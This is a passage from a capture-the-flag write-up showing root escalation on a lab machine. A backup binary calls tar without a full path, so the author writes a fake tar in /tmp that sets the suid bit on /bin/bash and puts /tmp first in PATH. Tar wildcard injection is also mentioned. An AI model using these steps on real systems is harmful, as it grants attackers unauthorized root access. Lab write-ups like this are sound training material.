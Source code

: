 ![Screenshot from 2022-05-19 17-11-07](https://user-images.githubusercontent.com/79413473/169285204-16e30121-ab6f-40e7-a7e6-38895497cc4b.png)

Running `strings` on binary gives, what's it been doing

```
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Backup failed!
Check your permissions!
Backup successful!
```
Note the wildcard character `*` which is a dangerous thing to do, [this](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) post sums it up properly. How you can force tar to execute a action with `--checkpoint-action` flag. Using that we can create files with this flag name which when executed will become a valid flag for tar will execute our malicious action.

But somehow it didn't workout. It worked when i ran it as matt user. But with `pandora_backup` binary it failed. 

### PATH hijack:

If you notice `tar` doesn't have a full path specified, which means we can try to hijack it's path. Let's create `tar` executable in `/tmp` directory

```
echo "chmod u+s /bin/bash" >/tmp/tar

chmod +x /tmp/tar

```
Change **PATH** variable, `PATH=/tmp:$PATH`. This will list our tar file first before actual tar binary.

Now run `/usr/bin/pandora_backup`

![Screenshot from 2022-05-19 17-51-30](https://user-images.githubusercontent.com/79413473/169291985-ee7cda92-9335-4b21-b4c2-7f1f94517aea.png)

`/bin/bash` has now suid bit set

![Screenshot from 2022-05-19 17-52-07](https://user-images.githubusercontent.com/79413473/169292088-b361786e-f853-4b04-b386-a979c5ec6147.png)

And that's how we get root on this machine. 

Thank you for reading. Please don't forget to clean up your instnace before leaving, remove the suid bit, remove tar file and any other exploit used.

Twitter: [Avinashkroy](https://twitter.com/avinashkroy)






